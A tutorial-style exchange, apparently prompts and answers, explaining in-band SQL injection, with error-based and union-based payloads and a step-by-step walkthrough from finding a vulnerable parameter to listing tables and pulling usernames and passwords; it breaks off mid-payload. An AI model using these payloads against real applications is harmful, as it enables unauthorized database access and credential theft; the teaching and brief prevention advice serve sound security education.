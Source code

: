

# In-Band SQL Injection (SQLi)

In-Band SQL Injection is one of the most common and straightforward types of SQL injection attacks where the attacker uses the same communication channel to both launch the attack and gather results.

## Types of In-Band SQLi:

1. **Error-Based SQLi**:
   - Relies on error messages returned by the database server
   - Attacker intentionally causes errors to extract information
   - Example: `' OR 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--`

2. **Union-Based SQLi**:
   - Uses the UNION SQL operator to combine results from multiple SELECT statements
   - Requires knowledge of the database structure
   - Example: `' UNION SELECT username, password FROM users--`

## Characteristics:
- Results are returned directly in the application's response
- Easier to exploit than other types (blind SQLi)
- Often used for data extraction

## Prevention:
- Use parameterized queries/prepared statements
- Implement proper error handling (don't show DB errors to users)
- Apply principle of least privilege for DB accounts
- Use web application firewalls (WAFs)

Explain Error Based and Union Based a bit more

 # In-Band SQL Injection: Error-Based and Union-Based

## Error-Based SQL Injection

Error-based SQL injection is a technique where attackers deliberately cause the database to generate error messages that reveal information about the database structure or contents.

**How it works:**
1. The attacker submits malicious input that causes a SQL error
2. The application displays the error message (either directly or in logs)
3. The error contains sensitive information about:
   - Database structure (table names, column names)
   - Database type/version
   - Query syntax that can be exploited further

**Example:**
```sql
' AND 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--
```
This might return an error like:
```
Conversion failed when converting the nvarchar value 'users' to data type int.
```
Revealing that there's a table called "users".

**Characteristics:**
- Relies on verbose error reporting
- Works even when no data is returned to the user
- Often used for reconnaissance before other attacks

## Union-Based SQL Injection

Union-based SQL injection leverages the UNION SQL operator to combine results from the original query with results from an injected query.

**How it works:**
1. The attacker determines the number of columns in the original query
2. They craft a UNION SELECT statement with matching columns
3. The database combines and returns results from both queries

**Example:**
```sql
' UNION SELECT username, password FROM users--
```

**Key requirements:**
1. Both queries must return the same number of columns
2. Corresponding columns must have compatible data types

**Process for exploitation:**
1. Find vulnerable parameter (through testing with `'` or `"`)
2. Determine number of columns (using ORDER BY or UNION SELECT NULL,...)
3. Identify which columns are displayed in output
4. Craft UNION SELECT to extract desired data

**Example step-by-step:**

1. Test for vulnerability:
   ```sql
   product.php?id=1'
   ```

2. Find number of columns:
   ```sql
   product.php?id=1 ORDER BY 5-- 
   ```
   Increase number until you get an error (error at 5 means 4 columns)

3. Confirm with UNION:
   ```sql
   product.php?id=-1 UNION SELECT NULL,NULL,NULL,NULL--
   ```

4. Identify displayed columns by replacing NULLs one by one:
  continue from step-by step

 # Continuing Step-by-Step Guide for In-Band SQL Injection (01-In-Band-SQLi)

## Step 4: Identifying Vulnerable Parameters
1. **Test all input fields**: Try basic SQL injection payloads in:
   - URL parameters (e.g., `?id=1`)
   - Form fields (login/search)
   - HTTP headers (User-Agent, Referer)

1. **Common vulnerable patterns**:
   ```sql
   ' OR 1=1 --
   " OR 1=1 --
   1' ORDER BY 1--
   1' UNION SELECT null--
   ```

## Step 5: Determining Database Structure
1. **Find number of columns**:
   ```sql
   ' ORDER BY 5-- 
   ```
   Increase number until error occurs to find column count

2. **Identify useful columns**:
   ```sql
   ' UNION SELECT 1,2,3,4,5--
   ```
   Note which numbers appear in output

## Step 6: Extracting Data
1. **Get database version** (replace visible column number):
   ```sql
   ' UNION SELECT 1,@@version,3,4,5--
   ```

2. **List tables**:
   ```sql
   ' UNION SELECT 1,table_name,3,4,5 FROM information_schema.tables--
   ```

3. **Extract column names from interesting tables**:
   ```sql
   ' UNION SELECT 1,column_name,3,4,5 FROM information_schema.columns WHERE table_name='users'--
   ```

## Step 7: Retrieving Sensitive Data
```sql
' UNION SELECT 1